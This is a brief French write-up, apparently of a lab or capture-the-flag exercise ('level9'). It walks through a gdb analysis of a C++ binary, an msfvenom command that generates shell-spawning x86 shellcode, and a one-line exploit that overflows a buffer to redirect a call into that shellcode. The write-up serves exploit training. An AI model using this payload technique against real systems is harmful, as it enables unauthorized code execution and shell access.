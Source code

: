 Pour ce challengeje n ai pas eu besoin de connaitre le c++, j'y suis aller stepbystep avec gdb

*main+136 on recupere argv[1]+108 dans le valeur de eax et avec 0x0804a078 pour adresse.

*main+140: La valeur de argv[1]+108 sur 4 octets deviens l adresse de eax, on va donc lui mette l'adresse actuelle + 4 octets (0x0804a07c)

*main+144: La valeur de la nouvelle adresse de eax devient l'adresse de edx, on va lui mettre l adresse de notre shellcode.

*main+159: L'adresse de edx est call, qui contient notre shellcode

Shellcode:

Nous avons 108 octets pour placer notre shellcode avant argv[1]+108 afin de generer un shellcode de 64 bytes, j ai utiliser msfvenom comme ceci:

msfvenom -p 'linux/x86/exec' CMD='sh' -a 'x86' --platform 'linux' -f 'c' -b '\x00\x09\x0a\x20'

afin de trouver l adresse de mon exploit, j ai pris l adresse de argv[1]+108 et je lui ais soustrais 64 (longueur du shellcode qui le precede) comme ceci:

(gdb) p/x 0x804a078-64

On obtient donc un shell avec la commande suivante:

./level9 $(python -c "print 'B' * (108-64) + '\x2b\xc9\x83\xe9\xf6\xe8\xff\xff\xff\xff\xc0\x5e\x81\x76\x0e\xf3\x43\x6c\x98\x83\xee\xfc\xe2\xf4\x99\x48\x34\x01\xa1\x25\x04\xb5\x90\xca\x8b\xf0\xdc\x30\x04\x98\x9b\x6c\x0e\xf1\x9d\xca\x8f\xca\x1b\x40\x6c\x98\xf3\x30\x04\x98\xa4\x10\xe5\x79\x3e\xc3\x6c\x98' + '\x7c\xa0\x04\x08' + '\x38\xa0\x04\x08'")
